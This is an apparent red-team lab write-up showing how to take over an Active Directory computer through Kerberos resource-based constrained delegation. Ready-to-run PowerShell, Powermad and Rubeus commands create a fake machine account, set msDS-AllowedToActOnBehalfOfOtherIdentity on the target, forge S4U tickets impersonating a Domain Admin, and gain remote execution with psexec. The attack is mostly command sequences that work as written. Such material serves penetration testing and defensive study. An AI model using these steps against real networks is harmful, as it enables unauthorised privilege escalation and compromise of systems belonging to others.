 # Kerberos Resource-based Constrained Delegation: Computer Object Take Over

It's possible to gain code execution with elevated privileges on a computer if you have WRITE privilege on that computer's AD object.

High level overview of the attack:

* We have code execution on the box `WS02` in the context of offense\sandy user
* User sandy has `WRITE` privilege over a target computer `WS01`
* User sandy creates a new computer object `FAKE01` in Active Directory \(no admin required\)
* Sandy leverages `WRITE` privilege on the `WS01` computer object and updates computer object's attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` to enable the newly created computer `FAKE01` to impersonate and authenticate any domain user that can then access the target system `WS01`. In human terms this means - the target computer `WS01` is happy for the computer resource `FAKE01` to impersonate any domain user if they want to access anything on `WS01`
* `WS01` trusts `FAKE01` \(due to the modified `msDS-AllowedToActOnBehalfOfOtherIdentity`\)
* We request kerberos tickets for `FAKE01$` with ability to impersonate `offense\spotless` who is a Domain Admin
* Profit

This lab is based on a video presented by [@wald0](https://twitter.com/_wald0?lang=en) - [https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be](https://www.youtube.com/watch?v=RUbADHcBLKg&feature=youtu.be)

## Requirements

|  |  |
| :--- | :--- |
| Target computer | WS01 |
| Admins on target computer | spotless@offense.local |
| Fake computer name | FAKE01 |
| Fake computer SID | To be retrieved during attack |
| Fake computer password | 123456 |
| Windows 2012 Domain Controller | DC01 |

Since the attack will entail creating a new computer object on the domain, let's check if users are allowed to do it - by default, a domain member usually can add up to 10 computers to the domain. To check this, we can query the root domain object and look for property `ms-ds-machineaccountquota`

```csharp
Get-DomainObject -Identity "dc=offense,dc=local" -Domain offense.local
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-20-49-58.png)

The attack also requires the DC to be running at least Windows 2012, so let's check if we're in the right environment:

```csharp
Get-DomainController
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-20-56-15.png)

Last thing to check - target computer WS01 object must not have the attribute `msds-allowedtoactonbehalfofotheridentity` set:

```text
Get-NetComputer ws01 | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-03-32.png)

This is the attribute the above command is referring to:

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-08-47.png)

## Creating a new Computer Object

Let's now create a new computer object for our computer `FAKE01` \(as referenced earlier in the requirements table\) - this is the computer that will be trusted by our target computer later on:

```csharp
import-module powermad
New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-21-30-46.png)

Checking if the computer got created and noting its SID:

```csharp
Get-DomainComputer fake01
# computer SID: S-1-5-21-2552734371-813931464-1050690807-1154
```

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-25-11.png)

Create a new raw security descriptor for the `FAKE01` computer principal:

```csharp
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-26-41.png)

## Modifying Target Computer's AD Object

Applying the security descriptor bytes to the target `WS01` machine:

```csharp
Get-DomainComputer ws01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-38-54.png)

Reminder - we were able to write this because `offense\Sandy` belongs to security group `offense\Operations`, which has full control over the target computer `WS01$` although the only important one/enough is the `WRITE` privilege:



![](../../.gitbook/assets/screenshot-from-2019-03-26-22-40-43.png)

If our user did not have the required privileges, you could infer that from the verbose error message:

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-43-25.png)

Once the `msDS-AllowedToActOnBehalfOfOtherIdentitity` is set, it is visible here:

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-42-18.png)

Same can be seen this way:

```csharp
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-41-34.png)

We can test if the security descriptor assigned to computer ws01 in `msds-allowedtoactonbehalfofotheridentity` attribute refers to the fake01$ machine:

```csharp
(New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl
```

Note that the SID is referring to S-1-5-21-2552734371-813931464-1050690807-1154 which is the `fake01$` machine's SID - exactly what we want it to be:

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-24-04.png)

## Execution

### Generating RC4 Hash

Let's generate the RC4 hash of the password we set for the `FAKE01` computer:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\Rubeus.exe hash /password:123456 /user:fake01 /domain:offense.local
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-22-46-25.png)

### Impersonation

Once we have the hash, we can now attempt to execute the attack by requesting a kerberos ticket for fake01$ with ability to impersonate user spotless who is a Domain Admin:

```csharp
\\VBOXSVR\Labs\Rubeus\Rubeus\bin\Debug\rubeus.exe s4u /user:fake01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:cifs/ws01.offense.local /ptt
```

![](../../.gitbook/assets/screenshot-from-2019-03-26-23-40-45.png)

Unfortunately, in my labs, I was not able to replicate the attack even though according to the output of rubeus, all the required kerberos tickets were created successfully - I could not gain remote admin on the target system `ws01`:

![](../../.gitbook/assets/screenshot-from-2019-03-26-23-40-57%20%281%29.png)

Once again, checking kerberos tickets on the system showed that I had a ticket for spotless, but the attack still did not work:

![](../../.gitbook/assets/screenshot-from-2019-03-28-22-01-23.png)

### Endless Trial and Error

Talking to a couple of folks who had successfully simulated this attack in their labs, we still could not figure out what the issue was. After repeating the the attack over and over and carrying out various other troubleshooting steps, I finally found what the issue was.

Note how the ticket is for the SPN `cifs/ws01.offense.local` and we get access denied when attempting to access the remote admin shares of `ws01`:

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-16-17.png)

Note, howerver if we request a ticket for SPN `cifs/ws01` - we can now access C$ share of the `ws01` which means we have admin rights on the target system WS01:

```csharp
\\VBOXSVR\Tools\Rubeus\Rubeus.exe s4u /user:fake01$ /domain:offense.local /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:spotless /msdsspn:http/ws01 /altservice:cifs,host /ptt
```

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-31-17.png)

To further prove we have admin rights - we can write a simple file from ws02 to ws01 in c:\users\administrator:

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-36-35.png)

Additionally, check if we can remotely execute code with our noisy friend psexec:

```csharp
\\vboxsvr\tools\PsExec.exe \\ws01 cmd
```

![](../../.gitbook/assets/screenshot-from-2019-03-31-13-44-20.png)

{% hint style="warning" %}
Note that the `offense\spotless` rights are effective only on the target system - i.e on the system that delegated another computer resource to act on the target's behalf and impersonate domain users.
{% endhint %}

## References

{% embed url="https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html" %}

{% embed url="https://github.com/Kevin-Robertson/Powermad" %}

{% embed url="https://github.com/PowerShellMafia/PowerSploit" %}

{% embed url="https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/" %}

{% embed url="https://decoder.cloud/2019/03/20/donkeys-guide-to-resource-based-constrained-delegation-from-standard-user-to-da/" %}









